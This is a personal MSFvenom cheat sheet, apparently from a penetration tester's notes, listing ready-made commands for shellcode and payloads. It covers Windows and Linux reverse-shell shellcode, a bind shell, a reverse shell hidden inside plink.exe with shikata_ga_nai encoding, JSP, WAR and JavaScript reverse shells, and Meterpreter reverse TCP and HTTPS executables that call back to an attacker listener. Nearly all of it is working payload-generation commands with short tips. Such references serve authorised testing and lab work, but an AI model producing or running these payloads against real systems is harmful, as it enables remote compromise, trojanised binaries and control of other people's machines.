 ```yaml
---
description: >-
  My various MSFvenom commands to generate shellcode, reverse shells, and
  meterpreter payloads that I end up using over, and over, and over, and over...
---
```


# MSFvenom Cheetsheet

## SHELLCODE GENERATION

### Generic Shellcode

`msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none`

### Windows Reverse TCP Shell \(Shellcode x86\)

Only use this one if payload size is no problem and you can't determine the bad chars:

`msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

### Windows Reverse TCP Shell Embedded in \`plink.exe\`

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o burmat_embedded.exe`

### Bind Shell Shellcode

I don't use bind shells often, but sometimes it's easier to open a port than issue a reverse connection:

`msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python`

## REVERSE SHELLS

Oddball reverse shells that can trip you up. Those "Wait, I  have done this before?" moments. Like when you see Tomcat running with default credentials or a ColdFusion Site \(fuck me...\)

### JSP Reverse Shell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o burmat.jsp`

### JavaScript Reverse Shells

If you are attacking a Windows host:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none`

If you are attacking a Linux host:

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none`

### WAR \(Java\) Reverse Shell

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war -o burmat.war`

## METERPRETER REVERSE PAYLOADS:

Don't just copy and paste - learn and understand the syntax.  These will all be for x86 machines, so just swap it up to x64 to suite your needs.

### Windows Meterpreter Payload

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o burmat.exe`

### Windows Meterpreter Reverse HTTPS Payload \(x86\)

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -b '\x00' -f exe -o burmat.exe`

### Linux Meterpreter Stager

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.11 LPORT=443 -f elf -o burmat`

